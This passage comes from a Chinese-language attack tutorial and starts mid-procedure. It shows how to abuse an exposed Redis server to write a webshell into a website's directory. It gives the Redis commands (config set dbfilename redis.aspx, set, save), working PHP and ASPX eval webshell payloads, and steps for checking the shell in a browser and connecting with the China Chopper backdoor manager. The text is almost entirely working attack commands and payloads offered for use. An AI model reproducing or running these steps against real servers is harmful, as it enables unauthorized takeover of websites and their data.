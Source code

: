 

（2）设置数据库名称

将dbfilename对名称设置为支持脚本类型的文件，例如网站支持php，则设置file.php即可，本例中为aspx，所以设置redis.aspx。

```
config set dbfilename redis.aspx
```



（3）设置webshell的内容

根据实际情况来设置webshell的内容，webshell仅仅为一个变量，可以是a等其他任意字符，下面为一些参考示例。

```
set webshell "<?php phpinfo(); ?>" 
 //php查看信息
set webshell "<?php @eval($_POST['chopper']);?> " 
 //phpwebshell
set webshell "<%@ Page Language=\"Jscript\"%><%eval(Request.Item[\"c\"],\"unsafe\");%>"
// aspx的webshell，注意双引号使用\"
```



（4）保存写入的内容

 `save`

（5）查看webshell的内容

 `get webshell`

**完整过程执行命令如图4所示，每一次命令显示“+OK”表示配置成功。**



[![image.png](https://image.3001.net/images/20180504/15254230762058.png!small)](https://image.3001.net/images/20180504/15254230762058.png)



<center>图4写入webshell</center>



1. 测试webshell是否正常

 在浏览器中输入对应写入文件的名字，如图5所示进行访问，出现类似：

“REDIS0006?webshell’a@H搀???”则表明正确获取webshell。



[![image.png](https://image.3001.net/images/20180504/15254230864637.png!small)](https://image.3001.net/images/20180504/15254230864637.png)



<center>图5测试webshell是否正常</center>



6.获取webshell

如图6所示，使用中国菜刀后门管理连接工具，成功获取该网站的webshell。
